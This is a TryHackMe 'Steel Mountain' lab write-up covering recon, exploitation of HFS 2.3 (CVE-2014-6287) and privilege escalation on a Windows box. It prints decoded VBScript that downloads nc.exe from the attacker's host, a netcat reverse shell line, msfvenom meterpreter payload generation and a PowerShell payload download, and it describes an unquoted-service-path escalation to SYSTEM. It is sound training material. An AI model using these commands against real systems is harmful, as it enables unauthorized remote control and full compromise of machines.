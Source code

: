 <p align="center"><img src="https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fwww.secjuice.com%2Fcontent%2Fimages%2F2019%2F01%2FTryHackMe-logo---small.png&f=1&nofb=1"></p>

# TryHackMe Steel Mountain
Hello and welcome to my first writeup!  This room was a lot of fun and great practice for learning some more enumeration and privilege escalation techniques for Windows systems.  I was proud of finishing this room completely on my own after finishing the TryHackMe Jr. Pentester Path so I decided I might as well make a write-up for the solution I found.

[Here's a link to the Steel Mountain room](https://tryhackme.com/room/steelmountain)

### Table of Contents

- [Recon and Port Scanning](#recon)
- [Initial Access](#initial-access)
- [Post Exploitation and Privilege Escalation](#post-exploitation-and-privilege-escalation)

### Recon

After reading the introduction we're told that this machine does not respond to ping (ICMP), so we will make sure to use the -Pn flag for our port scans.

We're going to start this room with a port scan using `nmap -sS -sV -O -sC -Pn -n <IP>`

A brief explanation for all of the flags I used in the scan:

`-sS`: the TCP SYN scan type is generally a safe flag to use in an initial scan since it doesn't complete the TCP 3-way-handshake, this makes the scan less likely to be logged

`-sV`: this flag will attempt to find the service and the service's version on each port; very useful for finding potential exploitatable services

`-O`: this flag attempts to find the OS; also useful for finding exploits

`-sC`: this flag runs the standard nmap scripts

`-Pn`: this flag tells nmap not to assume a port is closed because it doesn't respond to ping

`-n`: this flag tells nmap to not attempt DNS Resolution, only used this flag because the scan was taking a long time without this flag

<p align="center"> <img src="https://user-images.githubusercontent.com/65551261/156607050-7dcfc2f9-4878-44f0-b4da-4fffe0801bd8.png" align="center"></p>


Several ports were found open with a variety of different services.  Time to take a look and see what we discovered.

- Ports 80 and 8080 are HTTP services with port 8080 hosting HttpFileServer
- Ports 139 and 445 are open hosting SMB
- Port 3389 is open hosing Windows RDP
- Ports 49152 to 49156 as well as port 49156 are open and hosting Windows RPC 

Now that we have discovered quote a few open ports, let's try to explore them for a foothold.

---

### Initial Access

Port 80 and port 8080 both host HTTP services, meaning we can visit them on our browser.  So I checked them both out using firefox.  On port 80, there was a very simple webpage with a Steel Mountain logo as well as a picture of the Employee of the Month.


<p align="center"> <img src="https://user-images.githubusercontent.com/65551261/156625298-59275f31-8d4c-4f02-950b-56732019981d.png"> </p>

This site is completely plain, but I first tried to fuzz for hidden directories using gobuster but I found nothing.

The nmap scan also showed some information about the SMB service, perhaps we can get some information using enum4linux and smbclient, however this was another dead end.

The next step for me was checking out the HttpFileServer on port 8080.  Visitng this on my browser I found the following:

<p align="center"><img src="https://user-images.githubusercontent.com/65551261/156636351-16ea3370-9c12-4a56-b1e7-a3d3a8610725.png"></p>

Now this is interesting!  We can see that this service is using HFS version 2.3 and checking out the HFS homepage we can see that there have been 6 security updates since that version's use.  This is a huge red flag for potential exploits, so I decided to check if there was anything listed in Exploit-DB.  In Exploit-DB, there were 6 exploits listed with 4 of them being for RCE vulnerabilities exploiting CVE-2014-6287.  CVE-2014-6287 shows that HFS fails to handle null bytes in the search string so any commands that follow will be executed on the host system.  Exploit-DB had a python script exploit listed that executes a payload that will connect a reverse shell to a listening port on my machine.

[Here's a link to the Exploit-DB page where I got the script from](https://www.exploit-db.com/exploits/39161)
**However, the script is pretty old and outdated, I have an updated python script compatable for python3 since Kali has officially shifted completely to python3.**

Before executing any exploit, it's best to go through the script to understand exactly what it does and how it does it.  Althought this script is verified on Exploit-DB, it's generally good practice to ensure that when performing a real penetration test that there is nothing unexpected getting executed.  So I'm going to include a section here where I traced the code to see what's going on in this script.

<p align="center"><img src="https://user-images.githubusercontent.com/65551261/156642993-7747da1c-7c14-4bb2-958f-ebfa71e766e7.png"></p>

So, tracing the script we can see some functions getting declared that open URLs using our CLAs of <Target IP address> <Target Port Number> to the directory `/?search=%00{.+"+<some code here>+".}` using the null byte to execute the code on the host system.
  
Then our local ip address and listening port variables are declared along with some vbs and exe strings with special characters being URL-encoded.  These can be read a lot easier by using CyberChef to decode the URL-encoded characters.

**vbs1:**
```vbs
C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with  
```

First this script creates a file in the C:\Users\Public directory called script.vbs and writes to this sript using a pipe.  A variable `xHttp` is declared and is assigned as a Microsoft XMLHTTP object capable of making and receivig HTTP requests. Then a variable called bStrm is declared and is assigned as a Adodb.Stream object which will allow our script to read and write to binary files. Our xHttp object is then used to make a GET request to our local IP address using `http://10.10.xxx.xxx/nc.exe` and a `False` attribute.  Then we use the bStrm object to write the HTTP response to C:\Users\Public\nc.exe.
  
**vbs2:**
```vbs
cscript.exe C:\Users\Public\script.vbs
```

This script uses the Windows cscript.exe process to execute our script.vbs code that was defined previously.
  
**vbs3:**
```vbs
C:\Users\Public\nc.exe -e cmd.exe [IP_ADDRESS] [LOCAL_PORT]
```
  
This script executes the newly created executable file nc.exe with the -e execute flag to run cmd.exe with our local IP and Port.

And we can see that these commands are executed using the null byte RCE vulnerability to create the reverse shell.  Now that we understand what the script does, we can set up a python http server to host our nc.exe on port 80 and create netcat listener to capture our reverse shell.

And here we are!  The initial foothold into the system!
<p align="center"><img src="https://user-images.githubusercontent.com/65551261/156701870-55c79c81-9130-41e1-bbf3-2afb66c51cde.png"></p>

---

### Post Exploitation and Privilege Escalation
  
First thing I want to do is try to upgrade my shell to a more stable meterpreter shell, so I'm going check if I have write permissions in any directories.  IThe first place I checked was C:\Users\bill\Desktop which I had write permissions to.  My next step was to generate a reverse tcp meterpreter shell payload using msfvenom.
  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=<4444> -f exe>meterpreter4444.exe`
  
To upload my payload I'm going to use `powershell.exe Invoke-WebRequest -Uri "http://<IP>:<port>/meterpreter4444.exe" -OutFile C:\Users\bill\Desktop\meterpreter4444.exe`

To catch this meterpreter shell I'll use metasploit's multi/handler, so I'll start up msfconsole.

<p align="center"><img src="https://user-images.githubusercontent.com/65551261/156778223-215c3927-70e9-4c8f-9b0b-958562b13902.png"></p>

Use `set LHOST <IP>` to set the IP to your local address, and make sure the port is matching the port our payload will be trying to connect to.  Once the listener is set up, execute the payload uploaded on the windows machine and the meterpreter shell will be established.

Now with a much more stable shell, I began my enumeration.  I first uploaded a winPEAS.bat file to run to see if there were any blatent privilege escalation vectors.  

<p align="center"><img src="https://user-images.githubusercontent.com/65551261/156802046-46196188-627f-443e-b558-4ea2bb5c655f.png"></p>

  A decent number of services are running on unquoted paths, so I check to see if I am able to stop and start any of the services listed.  I have permission to change the state of the service called AdvancedSystemCareService9.  I'm going to upload accesschk.exe to check whether I have write permissions on the unquoted path.
  
Using `accesschk.exe -uwdqs Users c:\*` we can see that we have write permissions in the IObit directory, which we can exploit the unquoted path.  So I'm going to generate another reverse meterpreter with a different port in the directory and upload it as `Advanced.exe`.

After the files is uploaded, we simply open a new metasploit multi handler listener using our new port, restart our AdvancedSystemCareService9 service, and then we receive our new reverse shell which we confirm to be NT AUTHORITY\SYSTEM!  A successful path from foothold to admin!

<p align="center"><img src="https://user-images.githubusercontent.com/65551261/156801721-e027f937-9f23-4e93-a8d7-9e1b191aaa33.png"></p>
  
Thank you for checking out my writeup!~~
  
[My TryHackMe Profile](https://tryhackme.com/p/msherlock9ll96)

